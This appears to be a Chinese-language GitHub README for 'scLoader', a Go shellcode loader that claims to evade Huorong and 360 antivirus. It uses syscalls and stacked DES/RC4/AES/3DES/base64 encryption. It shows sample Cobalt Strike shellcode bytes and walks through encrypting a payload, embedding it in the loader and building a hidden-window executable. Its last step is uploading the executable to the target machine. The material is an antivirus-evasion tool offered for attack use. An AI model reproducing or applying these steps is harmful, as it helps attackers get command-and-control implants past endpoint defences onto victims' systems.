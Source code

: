 # scLoader: shellcode 加载器

## 效果
目前测试了火绒和360，静态动态都能免杀，静态VT检测效果一般

## 特点
- 基于Syscall进行免杀shellcode加载
- 已经实现的加密/编码：des,rc4,aes,3des,base64
- 在已实现的加密方式中，加密顺序可以随意指定

## 支持shellcode格式
目前支持CS中C语言格式和Raw格式的shellcode

**C语言字符串格式shellcode**
```
/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52......";
```

**纯十六进制格式的shellcodes**
```
fc48 83e4 f0e8 c800 0000 4151 4150 5251
5648 31d2 6548 8b52 6048 8b52 1848 8b52
2048 8b72 5048 0fb7 4a4a 4d31 c948 31c0
ac3c 617c 022c 2041 c1c9 0d41 01c1 e2ed
```

## 使用
1、编译sparrow.go(不想编译直接`go run`也行)

找到项目中builder/sparrow.go文件，然后如图编译即可

![](https://github.com/Peithon/scLoader/blob/master/imgs/build-sparrow.png)

2、使用sparrow.exe加密shellcode

在CS中生成需要格式的shellcode，将CS生成的原始.bin文件或.c文件放在sparrow.exe同一目录，使用命令

```
#.bin文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.bin
#.c文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.c
```
***注意：-e参数必须使用base64编码结尾***

![](https://github.com/Peithon/scLoader/blob/master/imgs/shellcode-encode.png)

3、将加密之后的shellcode填充到`/loader/loader.go`中的shellcode变量

4、按照加密顺序填充到`/loader/loader.go`中的encodestr变量中

![](https://github.com/Peithon/scLoader/blob/master/imgs/add-info.png)

5、编译`/loader/loader.go`文件
```
go build -trimpath -ldflags="-w -s -H=windowsgui" ./loader/loader.go
```

6、上传到目标机器，使用`loader.exe -fuck`命令加载shellcode


